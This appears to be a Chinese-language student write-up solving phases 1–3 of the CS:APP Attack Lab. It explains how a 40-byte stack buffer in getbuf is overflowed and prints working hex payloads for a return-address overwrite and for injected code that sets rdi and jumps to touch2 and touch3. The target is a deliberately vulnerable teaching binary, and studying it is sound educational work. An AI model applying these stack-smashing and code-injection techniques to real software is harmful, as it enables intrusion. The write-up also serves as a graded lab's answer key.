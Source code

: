 注意，运行./rtarget或者ctarget可能有问题，加上-q即可

## attack1:

我使用的操作系统是Ubuntu 22.04版本，在这个版本上运行ctarget程序会出现Segmentation Fault。如果你用gdb调试会发现在__vfprintf_internal方法内部有问题，具体修复方法可以参考：[Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04](https://blog.rijuyuezhu.top/posts/db646f34/)。建议使用更老的linux版本。我使用18是没问题的。

请先阅读attacklab.pdf

`hex2raw` 是一个字一个字的读，也就是一次读8个字节，但是字内部是小端，比如attack1.txt：`41 00 00 00 00 00 00 00`

执行./hex2raw < attack1.txt会输出 `A`。`./hex2raw < attack1.txt | ./ctarget -q`我们可以用这个命令执行程序

根据pdf的意思，我们首先要侵入一个程序，让它运行 `4017c0 <touch1>:` 。方法需要你知道栈的运行过程，当我们调用函数的时候，会自动的把程序的返回地址先压入栈中，然后再进入调用的函数，调用完成后返回，示意图如下：

```
[ 返回地址 ]        <--- 函数返回后，跳转到这里执行
[ buffer (x 字节) ]<--- 局部变量，用于存储用户输入
```

我们这个程序是从 `401968 <test>` 函数开始的

```asm
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
```

```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

getbuf给栈分配了40个字节的空间，40个之后就是返回地址了。所以我们先随便输入40个字节，再把后面的八个字节换成touch1的地址4017C0就成功了。

输入
```asm
A0 00 00 00 00 00 00 00
B0 00 00 00 00 00 00 00
C0 00 00 00 00 00 00 00
D0 00 00 00 00 00 00 00
E0 00 00 00 00 00 00 00
C0 17 40 00 00 00 00 00
```

## attack2:

rsp进入getbuf的时候是0x5561dca0，rsp减40个字节就是0x5561dc78。我们需要。我们的返回地址设成栈顶，并把栈顶的内容换成一个命令的二进制，计算机会自动执行他们。90是占位符，没作用

输入
```asm
48 BF FA 97 B9 59 00 00 00 00	/*	mov rdi, 0x59B997FA	*/
68 EC 17 40 00					/*	push 0x004017EC		*/
C3  							/*	ret					*/
90 90 90 90 90 90 90 90			
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
78 dc 61 55 00 00 00 00
```

注意在 64 位模式下，push 会将 8 字节值压入栈中（即使立即数是 32 位的，也会被符号扩展为 64 位）。如果push四字节后面是一些00 00，那么会被认为是其他的指令，比如add %al, (%rax)，对应的二进制是：00 00


## attack3:

```asm
C7 44 24 28 35 39 42 39			/* mov QWORD PTR [rsp+40], 0x39423935 将 0x35 0x39 0x42 0x39 存入 [rsp + 40(0x28)] */
C7 44 24 2C 39 37 46 41			/* mov QWORD PTR [rsp+44], 0x41463739 将 0x39 0x37 0x46 0x41 存入 [rsp + 44(0x2c)] */
C6 44 24 30 00					/* mov BYTE PTR [rsp+48], 0x00 将 0x00 存入 [rsp + 48(0x30)] （字符串的结束符） 	*/
48 8d 7c 24 28					/*	lea rdi, [rsp+40(0x28)]				*/
68 FA 18 40 00					/*	push 0x004018FA						*/
C3  							/*	ret									*/
90 90 90 90 90 90 90 90			/*	占位符								*/ 
78 dc 61 55 00 00 00 00			/*	0x5561dc78							*/ 
```

第三题和第二题很像，但是第三题我们需要返回字符串的地址，我们可以把字符串存在栈里面，开始我是直接存在离栈很近的地方的，后来发现都被覆盖了，其实题目也提示了这一点。我存在rsp+40的地方就没问题了。然后把字符串开始的地址存入rdi就行了。注意字符串需要小写。